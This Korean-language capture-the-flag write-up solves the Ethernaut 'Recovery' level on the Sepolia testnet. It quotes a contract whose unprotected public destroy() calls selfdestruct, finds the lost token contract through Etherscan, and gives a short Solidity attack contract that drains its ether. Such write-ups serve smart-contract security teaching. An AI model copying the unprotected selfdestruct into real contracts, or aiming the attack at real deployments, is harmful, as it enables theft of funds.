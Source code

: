 https://teberr.notion.site/Ethernaut-Recovery-f5175c17f4cf40bfbd89a76a41fce249

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e21c4a1b-7212-414b-af2d-d3e66ecb2d1b/Untitled.png)

> 컨트랙트 제작자는 간단한 토큰 팩토리 컨트랙트를 만들었습니다. 누구나 쉽게 토큰을 만들 수 있습니다. 첫 토큰 컨트랙트를 deploy한 후 제작자는 더 많은 토큰을 얻기 위해 0.001 이더를 전송했습니다. 그리고 지금 토큰 컨트랙트의 주소를 잊었습니다.

이 문제에서는 잊어버린 컨트랙트 주소에서 0.001이더를 되찾거나 제거하면 성공입니다.
> 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  
  }
}

contract SimpleToken {

  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value * 10;
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender] - _amount;
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```

# 코드 분석 및 공격 설계

```solidity
  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
```

먼저 문제에서 눈에 띄는 것은 destroy 함수이다. 

문제 성공 조건을 생각해보면 컨트랙트 제작자가 자신이 만든 SimpleToken 컨트랙트에 0.001 이더를 보내었고 이 0.001이더가 SimpleToken 컨트랙트에서 없어지게 하는 것이 성공조건이다. SimpleToken 컨트랙트의 함수들 중 유일하게 이더를 빼낼 수 있게 하는 함수는 destroy함수 뿐이며 이 함수는 public으로 공개 되어 외부에서 호출할 수 있다.

즉 public으로 공개되어있는 destroy함수를 호출하기만 하면 selfdestruct로 SimpleToken 컨트랙트가 사라지면서 문제 성공 조건을 만족하게 된다.

따라서 문제를 해결하기 위해서는 컨트랙트 제작자가 잊어버린 SimpleToken 컨트랙트의 주소만 알아내면 된다.

# 공격

인스턴스를 받아오며 문제를 진행해보자.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/23910e27-afed-4d89-b827-eafdbc22445a/Untitled.png)

```solidity
=> Level address
0xAF98ab8F2e2B24F42C661ed023237f5B7acAB048
=> Player address
0x83b26d6A3D3FaBd9F0A5f1d69DCA1CE6cc4eA39a
=> Ethernaut address
0xa3e7317E591D5A0F1c605be1b3aC4D2ae56104d6
=> Instance address
0x31E448f46E69AEa6e5B7771D4A1df44D8791Db7E
```

인스턴스를 받아오면 직접적으로 상호작용할 수 있는 컨트랙가 무엇인지 알기 위해 abi로 호출할 수 있는 함수 이름을 확인해 보았다.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a2ef3b24-d6b6-4b52-8a74-bc5f3a71f431/Untitled.png)

```solidity
await contract.abi
[{…}]
	0: {inputs: Array(2), name: 'generateToken', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}
	length: 1
	[[Prototype]]: Array(0)
```

인스턴스로 받아온 주소는 Recovery 컨트랙트이다. Recovery 컨트랙트의 경우 사용할 수 있는 함수가 generateToken밖에 존재하지 않고 이는 기존의 컨트랙트 제작자가 만든 SimpleToken의 주소를 파악하는데 직관적인 방법이 없다.

그래서 든 생각은 두 가지인데

1.  generateToken을 여러번 실행시켜 보면서 생성되는 주소의 패턴을 알아내어 컨트랙트 제작자가 생성한 첫 SimpleToken의 주소를 유추하기
2. Recovery 컨트랙트 주소를 알고있으므로 이더스캔에서 Recovery 컨트랙트 주소를 검색해 컨트랙트 제작자가 이 Recovery 컨트랙트 주소에서 만든 SimpleToken의 주소를 찾기

1번은 패턴이 찾아진다는 보장도 없고 2번이 훨씬 간단할 것 같아서 2번으로 진행했다.

![sepolia 이더스캔.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/cda1651c-cc09-4252-b160-067db6835ba8/sepolia_%EC%9D%B4%EB%8D%94%EC%8A%A4%EC%BA%94.png)

[https://sepolia.etherscan.io/](https://sepolia.etherscan.io/) 

현재 이더넛 문제를 Sepolia Testnet 에서 진행중이므로 Sepolia 이더스캔으로 접속했다.

인스턴스의 주소(`0x31E448f46E69AEa6e5B7771D4A1df44D8791Db7E`)를 검색해보니 내부 트랜잭션으로 두 개를 확인할 수 있다. 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3b64cac0-b159-4cc5-8da6-66911229cc3f/Untitled.png)

트랜잭션의 From 주소를 확인해 보면 두 개가 있다.

1. 0x31e4…
2. 0xaf98… 

 여기서 0xaf98..은 level address로 Recovery 인스턴스를 생성한 트랜잭션이다(처음 참고). 따라서 컨트랙트 제작자가 이 인스턴스에서 SimpleToken 컨트랙트를 생성하게된 트랜잭션은 From 주소가 0x31e4… 인 트랜잭션으로 보인다. 따라서 생성된 To 주소의 Contract Creation 링크를 눌러 트랜잭션을 따라가보자.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/cb8f66d6-e299-487a-87b8-b0a96c543526/Untitled.png)

컨트랙트 주소 **0x02cb6E52803d8E380b644E2bA95DFDdC1e31C4Ff** 가 생성되었고 0.001 이더를 받은 것을 확인할 수 있다. 

문제에서 설명한 컨트랙트 제작자가 보냈다던 0.001이더가 이 컨트랙트임이 거의 분명해졌다. 따라서 이 컨트랙트 주소의 destroy 함수를 실행시키는 코드를 작성하여 공격하자.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ISimpleToken{
    function destroy(address) external;
}
contract RecoveryAttack{
    address public target = 0x02cb6E52803d8E380b644E2bA95DFDdC1e31C4Ff;
    function attack()public{
        ISimpleToken(target).destroy(msg.sender);
    }
}
```

SimpleToken 컨트랙트의 destroy 함수를 이용하여 selfdestruct를 내 메타마스크 주소로 이더를 보내면서 실행하도록 하였다.

![실행 전.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d6fe3016-41ab-4443-a430-6111c6ef654f/%EC%8B%A4%ED%96%89_%EC%A0%84.png)

공격 전 2.5742 SepoliaETH을 보유하고 있었는데

![실행 후.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/639402ba-1564-4c45-a330-ab0884b86068/%EC%8B%A4%ED%96%89_%ED%9B%84.png)

공격 후 2.5752 SeploiaETH로 0.001이더가 늘면서 공격이 제대로 성공했음을 느꼈다. 문제 성공 조건을 충족하였으므로 인스턴스를 제출하면 된다.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/0a0e29b1-0653-419d-865a-1ce287d7827b/Untitled.png)

# 문제 후기

컨트랙트 주소는 결정적이고 `keccak256(address, nonce)` 에 의해서 계산된다. 이 때 address는 컨트랙트의 주소(또는 트랜잭션을 발생시킨 이더리움 주소)이고 nonce는 파생된 컨트랙트가 만든 컨트랙트의 수(혹은 일반적인 트랜잭션의 경우 트랜잭션 nonce)가 된다.

이 때문에 개인키가 아직 존재하지 않는 미리 결정된 주소로 이더를 먼저 보내고 나중에 이더를 복구하는 컨트랙트를 만들 수 있다.(아직 주소가 확정나기전에 미리 만들어지기로 예측되는 주소로 이더를 보낸 후 이더 복구)

이는 개인키를 보유하지 않고 이더를 저장하는 비직관적이고 위험한 방법이다.

Martin Swende는 이에 대한 가능성있는 용례를 [blog post](https://swende.se/blog/Ethereum_quirks_and_vulns.html)에 올려놓았다.

만약 이 기술을 사용하기 위해서는 nonce 값을 놓치면 안된다. 그러면 이더를 영구적으로 잃어버릴 수도 있다..

문제를 풀고 나오는 글귀를 해석해보니 이더스캔으로 푸는 내 방법이 의도했던 방법이 아니었던듯 하다… 하여튼 주소가 결정되기 전에 미리 예측되는 주소에 이더를 보내는 방법은 상당히 위험한 방법으로 다른 사람이 이를 캐치하여 그 주소로 만들어 버리게 된다면 보낸 이더는 전부 빼앗기게 되므로 이더를 미리 보내는 것은 지양하는 것이 좋다.
